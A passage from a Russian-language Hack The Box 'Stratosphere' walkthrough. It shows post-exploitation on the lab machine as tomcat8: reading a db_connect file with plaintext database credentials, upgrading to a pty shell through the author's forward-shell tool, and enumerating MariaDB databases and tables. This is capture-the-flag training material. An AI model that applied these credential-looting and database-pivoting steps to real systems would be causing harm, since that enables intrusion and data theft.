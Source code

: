 ```text
work:       symbolic link to ../../cache/tomcat8
```

```text
stratosphere> cat db_connect
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

### FwdSh3ll
**UPD.** В исследовательских целях был написан крошечный exploitation-фреймворк для генерации forward-shell'ов под различные уязвимости, ознакомиться можно [здесь](https://github.com/snovvcrash/FwdSh3ll "snovvcrash/FwdSh3ll: Forward shell generation framework.").

[![FwdSh3ll](https://asciinema.org/a/200295.png)](https://asciinema.org/a/200295?autoplay=1)

## PrivEsc: tomcat8 → richard
Далеко не отходя, нашли ASCII-text'ый файл `db_connect` с кредами авторизации в базу данных. Развернем pty-шелл самопальной командой `upgrade` нашего чудо-скрипта, чтобы не мучаться с синтаксисом one-liner'ов для извлечения информации из БД (сразу скажу, что первый набор кредов `ssn_admin:AWs64@on*&` — это rabbit hole, под этой учеткой в базе данных пусто):
```
stratosphere> upgrade
tomcat8@stratosphere:~$
mysql -u admin -p"admin"
mysql -u admin -p"admin"
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| users              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]>
use users
use users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [users]>
show tables;
show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| accounts        |
```

[//]: # (2019-09-17)
[//]: # ({{ "/img/xakep-badge.png" | relative_url }})